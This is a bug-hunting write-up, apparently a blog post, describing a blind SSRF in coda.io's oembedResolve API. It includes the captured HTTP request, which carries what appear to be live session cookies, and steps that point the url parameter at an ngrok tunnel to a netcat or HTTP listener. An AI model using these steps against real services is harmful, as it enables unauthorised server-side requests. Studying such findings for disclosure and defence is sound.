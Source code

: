 ```yaml
---
title: Blind SSRF on https://coda.io [Bug Hunting]
updated: 2020-05-02 12:37
---
```


## Summary:
The following article is about a limited Blind SSRF found on coda.io, however this specifically bug is Out Of Scope, but I am publishing this article for educational purposes only and understanding that not every SSRF vulnerable endpoint is directly shown into URL.

## Steps To Reproduce (Detailed):
1. Create an account and click “New Doc”
2. Open Burp Suite
3. Add a random link (http://google.com) in the Blank document. I pasted http://google.com

![coda.io_pasted_link](https://miro.medium.com/max/700/1*ge1CBnzCC0LCwSsYpn3KXQ.png)

4. Right after you paste the link, the request will be captured by Burp Suite (which when I first saw it, made me feel weird):

![bupr_suite_api_request](https://miro.medium.com/max/700/1*XFzxQC_3YZxgv1SO1cscTA.png)

Here is the request in text:

```
GET /api/oembedResolve?docId=9eyvV-2wPb&url=http%3a//google.com&isMobile=false&type=embed HTTP/1.1
Host: coda.io
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://coda.io/d/script-alert-1-script_d9eyvV-2wPb/Blind-SSRF-PoC_su744
Connection: close
Cookie: session_data=eyJpZCI6ImFzLWRwM2tlRTZta2cifQ; _gid=GA1.2.605406728.1588442552; _fbp=fb.1.1588350085313.1242192472; user_consent=eyJhbmFseXRpY3NBbGxvd2VkIjp0cnVlLCJhZHZlcnRpc2luZ0FsbG93ZWQiOnRydWV9; csrf_token=rS6BVpPBGO378IP3; auth_flag=NDYyNjU1; cookie_info_consent=dismiss; auth_session=xesHxSUtKDxX6RWZnuZ2WA.sKVzy_Bmtnq35Ynczc-mKITF6KIc8gB0rHbeDCyPpYEUSlgGlVn9TJGHybP_SVsProAmstZAd7wjxkookEO0xwKCO4-sOTaxIy8aE12W5npFwxGRZF0JpZX1MaP2yCa6.1588350834554.315360000000.Han3nwsHud5LBY8sE4mkxl7Ppb1HPwwna1k8U8Mybn0; _ga=GA1.2.807689529.1588442552; intercom-session-m22vs7y5=TGVJMDBzLzBvbWhReGFQTHJUUERvNmJQYktsbWlzanp6TUJBZmREVFJuNUE5RE5QaDdnMGs2dEY5VGkvb3FtLy0tNU95NUtNV1NVT29LTFVBRFRsdUVtZz09--9a228357063a08feb8dd1f5759226c83fa89d6fe
If-None-Match: W/"1a2-FgfpzWJUBVgjJx2YOHvV9McMvWw" 
```

I didn’t expect the server to send a request just because I pasted a simple link. In the burp i realised that the URL parameter on the following API endpoint seems to be vulnerable.

>/api/oembedResolve?docId=9eyvV-2wPb&url=http%3A%2F%2Fgoogle.com&isMobile=false&type=embed

We can change http://google.com with our Local IP (I am using Ngrok TCP for port forwarding: **http://0.tcp.ngrok.io:12756** which forwards to 127.0.0.1:1064).

The final link that we will replace is:
>/api/oembedResolve?docId=9eyvV-2wPb&url=http://0.tcp.ngrok.io:12756&isMobile=false&type=embed

Add the final link into the burp (by replacing it with http://google.com), and when we send the request, we get a connection in port 1064:

![netcat_connection_back](https://miro.medium.com/max/700/1*wPSn6NEZreVYtXgpPLZL_g.png)

## Simplier method without Burp Suite

Simply paste the url (http://0.tcp.ngrok.io:12756) into the document
Then you will directly get a connection on Listener (this case I used Netcat).

This method doesn’t require Burp, but for the sake of understanding, I recommend to use that tool.

## Example impact

I opened up a Simple HTTP Server on port 1064.
I will put the link: http://0.tcp.ngrok.io/12756/test.png , which will download test.jpg from my Local Server into the Remote Server.

>/api/oembedResolve?docId=9eyvV-2wPb&url=http://0.tcp.ngrok.io:12756/test.jpg&isMobile=false&type=embed

On the listener we got the GET request from the server:

![http-server-connection](https://miro.medium.com/max/700/1*aZC6FCrbb912H69kCLpV-w.png)

## Why this SSRF is different from the normal ones?

Normally a SSRF is about changing the url= parameter into the URL you want, but on this case I couldn’t find the url without using Burp Suite. Everything was happening on background.

## Conclusion

I was really happy to finally find a Critical Bug, however while making the article I realised that the specifically API endpoint related to SSRF was Out Of Scope. I still decided to create this article with the purpose of learning, and realising how creative a SSRF can be.
